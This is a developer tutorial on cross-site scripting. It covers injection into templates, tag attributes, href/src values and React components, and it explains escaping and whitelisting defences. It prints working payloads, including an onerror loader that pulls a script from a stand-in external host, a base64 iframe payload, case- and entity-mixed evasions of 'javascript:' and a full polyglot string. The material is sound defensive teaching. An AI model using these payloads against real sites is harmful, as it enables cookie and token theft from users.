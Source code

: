 ```metadata
tags: web, security, xss
```

## web security: xss

`xss` is short for `cross site scripting`. It's very serious security bug that may
 affect all users of your website. Just think about attackers can run any malicious
 script at your website. They may stale user tokens, cookies to there server.

### short summaries
`xss` is not a small topic. Following is a short summaries:

- be careful of EVERY user input
- always use context aware template, avoid using those just doing string concatenating
- escape user input (html escape, javascript escape); you should escape when they'll be
 used but not when received from user (as late as possible)
- prefer whitelist to blacklist. limit trusted html tag, tag attributes, trusted url prefix.
 You may think of using regex to filter out dangerous content like `javascript`, `script`,
 `eval` and others. But NEVER do this. There are too many tips to escape these kinds of
 regex match.

### a simple xss example
`xss` mostly came from user inputs like username, blog contents, comments and uploaded
 images. Developers often put it in html template like:

    <div>name: {{ name }}</div>

Or injected html using `innerHTML` like following javascript code (frontend):

    document.querySelector('#content').innerHTML = name;

It won't have any problem if they are common content like `David`, `this is a title`.
But what if the attacker builds a special name like `<img src=x onerror='javascript:alert(1);'`?

Then the javascript is executed. Actually attacker can execute any other valid javascript
 code. For example, load an external script:

    <img src=x onerror="s=document.createElement('script');s.src='http://xxx.com/external.js';document.body.appendChild(s);">


Following are common `xss` examples. I uses `alert` but it could be any other code.

### template html xss
It's common to write template like following:

    <div>article title is {{ title }}</div>

What about title is string like `</div><script>alter(1);</script><div>`?

### template js xss
Someone may inject variables to javscript of backend template like following:

```js
<script>
    const user_id = {{ uid }};
    const user_name = '{{ name }}';
</script>
```

What about `uid` is something like `1;alert(123)`? What about `name` is something like
 `'alert(123);`?

### templtae tag attributes
Some tags like `img` support function handlers like `onload`, `onerror` that can will
 execute javscript.

Suppose a template like

    <img src="{{ image_url }}">

What about image_url is something like `invalid_url" onerror="javascript:alert(1);`.
Then it becomes

    <img src="invalid_url" onerror="javascript:alert(1);">

### href/src xss
The `href` attribute supports not only url like `https://`, but also `javascript:xxx`
 and the data uri.

So for template like `<a href="{{ url }}">link</a>`. It can be injected if url is
 something like `javascript: alert(1)`.

Attention, you should not write code that tries to exclude url those begin with `javascript`.
 It is suggested to filter using whitelist that allows those start with `http://` or
 `https://`.

The reason is that prefixes like `jaVasCript:`, `j&#x41;vascript:`, `java&#x0D;script:`
 also work well. You can mix any html escape characters in it. And some special characters
 like `CR(0x0d)`, `LF(0x0a)` can be inserted at any place. So it's hard to check the prefix
 to exclude `javascript:`.

This injection also applies to `src` attribute of `<iframe>`. And the `src` of `iframe`
 also supports the data uri protocol so that following xss also works (the base64 encoded
 content is `script>alert('XSS')</script>`).

    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">

With base64 encoding, it can avoid many keywords based xss checkers.

A lot of blogs said that you can inject `javascript:` via `src` of `img`. I think it is
 old story. Modern browsers don't allow this, including `svg` with `script` inside it.

### SPA XSS (react, vue)
Nowadays, SPA built by react or vue is very popular. These frameworks often use context
 aware template and they will handle escape automatically for us. There is less chances
 to inject XSS, but less chances doesn't mean no chance.

It's very common to fetch UGC contents via http api and then render them. Example

```js
const Post = ({ content }) => {
    return (<div dangerouslySetInnerHTML={{ __html: content }}></div>)
}
```

It's easy to inject using a content like `<img src=x onerror="javascript:alert(1)";`.

For this case, you may wonder that why not use `<script>XXX</script>` directly. Actually,
 it won't work. The `<script>` tag is parsed and executed when the DOM is initially parsed.
 Those generated after this stage won't be executed. But `<img>` can be loaded at any
 time. Thus why we preferred `<img>` tag to do xss.

And all href/src related injections also works for SPA and react.

And there is also a concealed case when you use user data as props, like following:

```js
const Post = ({ userInfo }) => {
    return (<div { ...userInfo }></div>)
}
```

The `userInfo` in above case is UGC content. So what about user generates it as
 `{ dangerouslySetInnerHTML: { __html: '<malicious html content>' } }`?

### test cases
We need test cases to test our applications. The referenced google xss blog gives a very
 nice test string: `>'>"><img src=x onerror=alert(0)>`.

#### xss polyglot payload
A polyglot payload can inject at many different contexts. Let's see following example:

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle>/</titLe>/</teXtarEa>/</scRipt>/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3e

- It can inject the href attribute. For this case, the `/*...*/` is comment and will be
 ignored. The first alert will effect.

- The ** ' " \` ** followed by a `/*` will close the quote in tag attribute or js and start
 a comment. This comment will be closed by `*/` before the `oNcliCk`. So the first alert will
 effect too. This hits template like `<a style="{{ style }}">`.

- The `</stYle>/</titLe>/</teXtarEa>/</scRipt>/--!>` will close `<style>`, `<title>`,
 `<textarea>`, `<script>` and `<!--`. So that the second alert will work.

In above case, we found that it mixes upper case characters and lower case characters, like
 `jaVasCript`. It also use `\x3c` which is hex encode of `<`. By this way, it can evade those
 css checkers that simply do some string matchings but not context aware handling.

You can see details about this polyglot xss at
 [HackVault Wiki](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot).

### prevent xss
We need to check and escape user inputs to prevent xss. You should use different escape
 according to different context.

#### html escape
We can do html escape avoid html injection. You can replace those dangerous characters to
 html entities. Like

    <         to          &lt;
    >         to          &gt;
    "         to          &quot;    OR   &#34;
    '         to          &#39;
    &         to          &amp;

By this way, these characters will be parsed and displayed as normal text characters.

#### js escape
You need to do js escape in javascript context. For js code like `const user_name = "{{ name }}";`.
 The quote will be closed unexpectedly if name contains `"`. And then xss ejection happens.

To avoid this, we can escape characters like ** " ' \` \\ / ** to avoid this. Like replace
 `"` with `\U0022`.

Since javascript is contained in html context. You still needs to do html escape after
 js escape.

### xss resources
Google has a very interesting game-like site that you can try to practice XSS to
 improve knowledge about XSS. Try it at [google XSS game](https://xss-game.appspot.com/).

You really should have a look at
 [OWASP XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).
 It provides many nice xss tests.

### references
- [google application security: xss](https://www.google.com/about/appsecurity/learning/xss/index.html)
- [OWASP: XSS prevention cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP: XSS filter cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [github HackVault: xss polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
